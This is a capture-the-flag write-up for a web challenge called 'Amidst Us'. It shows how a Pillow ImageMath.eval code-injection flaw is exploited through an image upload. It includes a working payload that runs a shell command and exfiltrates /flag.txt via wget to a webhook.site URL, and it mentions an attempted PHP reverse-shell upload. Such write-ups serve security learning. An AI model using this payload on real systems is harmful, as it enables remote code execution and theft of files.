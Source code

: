 # Amidst Us

We start off with a weird page where we can select a color that does not seem to do anything:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When clicking in the spaceship at the center of the website we can click on it and upload a file:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If i upload a php reverseshell.php i get blocked but if i submit a reverseshell.php.jpg it seems to send at least a request:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But i did not manage to do anything with that so i came back and tried to go slower:

I just go and look at how the app reacts when i upload a normal hackergobrrr.png image:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i went and looked at how the image was treated since there was some sort of b64 string directly related to it and saw this:



and when i googled what this was i saw the first link that seemed interesting:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and indeed we have this function:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after googling around this exploit i found this:

{% embed url="https://github.com/advisories/GHSA-8vj2-vxx3-667w" %}

`PIL.ImageMath.eval` in Pillow before 9.0.0 allows evaluation of arbitrary expressions, such as ones that use the Python exec method `ImageMath.eval("exec(exit())")`.

so we need to take that and craft something that would lead to RCE or file reading:

```
ImageMath.eval("__import__('os').system('wget https://webhook.site/aa31223b-35e4-4679-aa22-8ea194c82870?flag=$(cat /flag.txt)')")
```

i put my payload in the eval function so everyone can see how the imagemath would handle it, so here we import os and send a request to a webhook server that i own and append the flag to the request so we can exfiltrate it:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I replace one of the 3 values with my payload and hit send and look at my webhook:

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's flagged&#x20;
